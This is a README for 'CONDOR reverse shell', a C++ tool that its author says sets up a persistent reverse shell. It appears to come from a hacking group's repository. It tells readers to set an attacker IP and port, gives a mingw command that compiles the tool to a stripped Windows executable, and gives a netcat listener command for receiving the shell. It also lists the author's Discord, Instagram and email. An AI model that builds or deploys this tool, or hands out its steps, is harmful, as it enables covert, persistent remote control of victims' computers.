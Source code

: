 ##  CONDOR reverse shell V1.0
## Language 
    C++
## Author
    Condor
## Organization 
    I'M ROOT 
## Discord 
    https://discord.gg/wkn8gdEjjW
## Instagram 
    https://www.instagram.com/_samueleabbate/
## JobApplication 
    samuele13213@gmail.com

##  ITA
    Una reverse shell che crea una persistenza!!!
    Per qualsiasi problema o richiesta vi consiglio di unirvi nel discord di I'M ROOT "https://discord.gg/wkn8gdEjjW"
    Sarò felice di aiutarvi.

## EN
    A reverse shell that creates persistence !!!
    For any problem or request I suggest you join the I'M ROOT discord 
    "https://discord.gg/wkn8gdEjjW"
    I will be happy to help you.

##  change The IP and Port number in the source code

    There is **condor.cpp** file you have to open and change the **ip address** and **port number**

## Compile it

    apt install mingw-w64

    i686-w64-mingw32-g++ condor.cpp -o condor.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

## Start  the netcat Listener
    
    nc -lvnp <port number>
